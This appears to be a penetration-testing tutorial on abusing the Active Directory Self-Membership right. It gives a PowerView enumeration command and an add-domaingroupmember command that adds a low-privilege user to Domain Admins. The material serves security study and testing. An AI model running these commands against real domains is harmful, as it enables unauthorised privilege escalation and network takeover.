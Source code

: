 ```yaml
---
title: Self-Membership
date: 2022-06-03 05:49:33 +0800
categories: [Infrastructure Pentesting, Active Directory]
tags: []  
---
```


# Self-Membership

Self-Membership : Ability to add yourself to a group. If you have `Self-Membership` on group, you can add yourself to the group.

# Enumeration

## PowerView

### Self-Membership Enumeration 

We will get current user's sid by executing `whoami /user`, import powerview, then execute the below command to get the list of objects on which we have `Self-Membership` right.

Command
```powershell

get-objectacl -resolveguids | ? {($_.securityidentifier -eq "[our_current_user_sid]") -and ($_.objectacetype -like "*self-membership*")}

```

Below image shows the current user `usman` has Self-Membership right on `Domain Admins` group.

![aclgroupgenall](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/aclgroupself2.png)

## BloodHound

We can also get thesame result using bloodhound.

Below image shows the current user `usman` has Self-Membership right on `Domain Admins` group.

![acl](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/aclgroupself1.png)

# Exploitation

Let's check our current group.

![acl](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/aclgroupgenall3.png)

Here `usman` is a member of `Domain Users` group. We are going to exploit `Self-Membership` to add `usman` to `Domain Admins` group.

## PowerView

Since we have `Self-Membership` right on `Domain Admins` group, we can add `usman` to the group by executing the below command

Command

```powershell
add-domaingroupmember -identity "Domain Admins" -members usman

```

![acl](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/aclgroupgenall4.png)

Let's check it by executing `get-netgroup -memberidentity usman`

![acl](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/aclgroupgenall5.png)

As you can see, `usman` has been added to `Domain Admins` group.
	
# References

- [https://docs.microsoft.com/en-us/dotnet/api/system.directoryservices.activedirectoryrights?view=netframework-4.7.2](https://docs.microsoft.com/en-us/dotnet/api/system.directoryservices.activedirectoryrights?view=netframework-4.7.2)
- [https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/acl-persistence-abuse](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/acl-persistence-abuse)
